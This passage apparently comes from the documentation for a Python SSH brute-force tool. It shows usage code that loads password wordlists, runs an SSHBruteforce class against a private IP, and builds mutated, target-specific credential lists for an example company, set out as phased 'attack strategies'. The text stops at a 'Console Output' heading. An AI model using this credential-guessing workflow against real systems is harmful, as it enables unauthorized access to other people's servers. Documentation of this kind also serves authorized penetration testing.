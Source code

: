 ```python
from src.utils.wordlist_manager import WordlistManager

wm = WordlistManager()
passwords = wm.load_wordlist("common_passwords.txt")

stats = wm.get_wordlist_stats(passwords)
print(f"Total passwords: {stats['count']}")
print(f"Average length: {stats['avg_length']:.1f}")
print(f"Min/Max length: {stats['min_length']}/{stats['max_length']}")
```

## Attack Strategies

### 1. Default Credentials Phase

Start with default/common credentials:

```python
bruteforcer = SSHBruteforce("192.168.1.100", max_threads=3, timeout=2)
bruteforcer.run()  # Uses default credentials
```

### 2. Common Credentials Phase

Use common username/password combinations:

```python
bruteforcer.run(
    userlist_file="wordlists/common_users.txt",
    passlist_file="wordlists/common_passwords.txt"
)
```

### 3. Target-Specific Phase

Create wordlists specific to your target:

```python
# Company: ACME Corp, Server: web01
wm = WordlistManager()
target_users = ["admin", "acme", "acmeadmin", "web01", "webmaster"]
target_passwords = wm.generate_mutations(["acme", "web01", "password"])

wm.create_custom_wordlist(target_users, "custom/acme_users.txt")
wm.create_custom_wordlist(target_passwords, "custom/acme_passwords.txt")

bruteforcer.run("wordlists/custom/acme_users.txt", "wordlists/custom/acme_passwords.txt")
```

## Output and Logging

### Console Output
